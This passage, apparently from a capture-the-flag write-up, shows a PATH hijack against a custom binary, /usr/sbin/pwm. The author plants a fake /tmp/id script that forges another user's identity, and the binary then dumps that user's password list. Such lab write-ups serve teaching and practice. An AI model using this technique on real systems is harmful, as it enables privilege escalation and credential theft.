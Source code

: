 The /usr/sbin/pwm binary draws my attention, because its not there by default on Linux hosts.

Let’s see what happens when we execute it:

```
www-data@ip-10-10-181-47:/home$ /usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found

```

Interesting. So this binary seems to execute the “id” command, and then extracts the username out of it, and then puts that username into “/home/username/.passwords” and tries to do something with it.

If the “id” command is not specified with it’s full path (/bin/id), it is found and executed via the PATH variable in our environment :

```
www-data@ip-10-10-181-47:/home$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

Let’s try to trick the program into executing a different “ID” command, one that would result in the “think” username to be extracted from the output.
_Path Hijack_

We can add /tmp to our path :

```
www-data@ip-10-10-181-47:/$ export PATH=tmp:$PATH
www-data@ip-10-10-181-47:/$ echo $PATH
tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

And now create /tmp/id with the following content :

```
# Create the `id` command under /tmp/id
cat > /tmp/id << EOF
#!/bin/bash
echo 'uid=1000(think) gid=1000(think)group=1000(think)'
EOF

# Give executable permission to /tmp/id
chmod +x /tmp/id
```

Now we run it again :

```
www-data@ip-10-10-116-56:/$ /usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: think
jose1006
jose1004
jose1002
jose1001teles
jose100190
jose10001
jose10.asd
jose10+
jose0_07
jose0990
jose0986$
jose098130443
jose0981
jose0924
jose0923
jose0921
```